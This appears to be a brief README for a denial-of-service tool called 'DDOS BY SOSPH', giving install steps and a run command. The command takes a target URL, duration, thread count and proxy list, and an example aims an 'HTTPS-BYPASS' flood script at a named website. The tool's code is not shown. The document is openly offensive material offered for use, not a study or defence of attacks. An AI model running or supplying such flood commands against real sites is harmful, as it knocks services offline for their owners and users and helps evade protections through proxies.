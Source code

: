 # G-CLOUDSHELL
G-CLOUDSHELL

DDOS BY SOSPH

SETUP & RUN

cd sosph

npm i fake-useragent

node sosph.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

EXAMPLE :

node HTTPS-BYPASSv2.js https://dagtriDepTrai.com 60 5 PROXYVIP.txt
